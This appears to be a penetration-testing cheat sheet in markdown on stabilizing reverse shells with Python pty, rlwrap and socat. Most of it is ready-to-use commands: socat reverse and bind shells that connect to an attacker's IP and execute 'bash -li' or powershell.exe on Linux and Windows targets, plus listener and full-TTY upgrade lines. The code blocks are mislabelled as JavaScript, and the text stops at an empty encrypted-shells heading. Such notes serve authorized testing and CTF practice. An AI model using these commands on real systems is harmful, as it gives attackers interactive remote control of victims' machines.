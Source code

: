 # Shell Stabilizing Techniques

### Technique 1: Python

**Step 1: uses Python to spawn a better featured bash. Some versions may used python2 or python3, change if necessary**
```JavaScript
python -c 'import pty;pty.spawn("/bin/bash")'
````

**Step 2: Gives us access to commands such as clear**
```JavaScript
export TERM=xterm
```

**Step 3:**

- Background the shell with CTRL + Z

- In your own terminal, use the command below. This will turn off your own terminal and foregrounds the shell 
```JavaScript
stty raw -echo; fg
```


### Technique 2: rlwrap

**Install rlwrap**
```JavaScript
sudo apt install rlwrap
```

**Usage**
```JavaScript
rlwrap nc -lvnp <port>
```
**Use the third step in technique 1 as the final step for Technique 2**


### Technique 3: Socat

* This tecnique is limited to linux machines
* You must also transfer the socat static compiled binary up to the target machine



## Socat Reverse Shells

**Basic Syntax: The following is equivalent to nc -nlvp <port>**
```JavaScript
socat TCP-L:<port> -
```
  
On Windows we would use this command to connect back
```JavaScript
socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:powershell.exe,pipes
```

This is the equivalent command for a Linux Target
```JavaScript
socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:"bash -li"
```
  
  
## Socat Bind Shells

On a Linux target
```JavaScript
socat TCP-L:<PORT> EXEC:"bash -li"
```
  
On a Windows target
```JavaScript
socat TCP-L:<PORT> EXEC:powershell.exe,pipes
```
  
And from our attacking machine to connect to your listener...
```JavaScript
socat TCP:<TARGET-IP>:<TARGET-PORT> -
```


## Fully Stabilized Socat Shell Listener
  
* We're connecting two points together
* We are passing in the current TTY as a file and setting the echo to be zero. This is approximately equivalent to using the Ctrl + Z, stty raw -echo; fg trick with a netcat shell -- with the added bonus of being immediately stable and hooking into a full tty

```JavaScript
socat TCP-L:<port> FILE:`tty`,raw,echo=0  
```
  
```JavaScript
socat TCP:<attacker-ip>:<attacker-port> EXEC:"bash -li",pty,stderr,sigint,setsid,sane
```
  
The first part is easy -- we're linking up with the listener running on our own machine. The second part of the command creates an interactive bash session with  EXEC:"bash -li". We're also passing the arguments: pty, stderr, sigint, setsid and sane:

- pty, allocates a pseudoterminal on the target -- part of the stabilisation process
- stderr, makes sure that any error messages get shown in the shell (often a problem with non-interactive shells)
- sigint, passes any Ctrl + C commands through into the sub-process, allowing us to kill commands inside the shell
- setsid, creates the process in a new session
- sane, stabilises the terminal, attempting to "normalise" it.

  
## Socat Encrypted Shells
